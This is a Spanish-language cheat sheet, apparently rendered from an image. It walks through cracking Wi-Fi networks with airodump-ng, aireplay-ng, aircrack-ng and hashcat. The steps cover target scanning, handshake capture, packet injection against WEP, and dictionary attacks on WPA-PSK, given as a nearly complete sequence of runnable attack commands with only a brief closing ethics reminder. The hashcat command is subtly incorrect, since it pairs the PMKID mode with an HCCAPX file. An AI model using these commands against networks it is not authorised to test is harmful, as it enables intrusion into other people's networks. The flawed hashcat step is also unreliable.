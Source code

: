 ### Los usos detallados de `aircrack-ng` y herramientas relacionadas con redes Wi-Fi involucran varias etapas:

### Escaneo de Redes:

#### Airodump-ng:
- **Escaneo de redes:** Muestra las redes Wi-Fi disponibles con información detallada como BSSID, ESSID, potencia de la señal, etc.
  ```bash
  airodump-ng wlan0
  ```

### Captura de Paquetes:

#### Airodump-ng:
- **Captura de paquetes:** Guarda los paquetes de una red específica en un archivo para su posterior análisis o ataque.
  ```bash
  airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w captura wlan0
  ```

#### Aireplay-ng:
- **Inyección de paquetes:** Genera tráfico en la red objetivo para capturar más IVs (vectores de inicialización) en el caso de redes WEP.
  ```bash
  aireplay-ng -3 -b 00:11:22:33:44:55 -h 66:77:88:99:AA:BB wlan0
  ```

### Análisis y Ataques:

#### Aircrack-ng:
- **Ataque WEP:** Utiliza los IVs capturados para intentar crackear la clave de la red WEP.
  ```bash
  aircrack-ng -b 00:11:22:33:44:55 captura-01.cap
  ```

- **Ataque WPA-PSK con diccionario:** Intenta descifrar la clave de la red WPA-PSK utilizando un diccionario de contraseñas.
  ```bash
  aircrack-ng -w diccionario.txt captura-01.cap
  ```

#### Hashcat:
- **Crackeo avanzado de WPA-PSK:** Utiliza archivos generados por `aircrack-ng` (HCCAPX) para ataques de fuerza bruta o diccionario.
  ```bash
  hashcat -m 16800 archivo.hccapx diccionario.txt
  ```

### Otros Comandos Útiles:

- **Ver redes y características del adaptador Wi-Fi:**
  ```bash
  iwlist wlan0 scan
  ```

- **Mostrar información detallada del adaptador Wi-Fi:**
  ```bash
  iwconfig wlan0
  ```

Estos son algunos de los usos más comunes y completos de herramientas como `aircrack-ng`, `airodump-ng`, `aireplay-ng`, `hashcat`, y comandos básicos de sistema para escanear, capturar, analizar y realizar ataques en redes Wi-Fi. Es crucial utilizar estas herramientas de manera ética y legal.
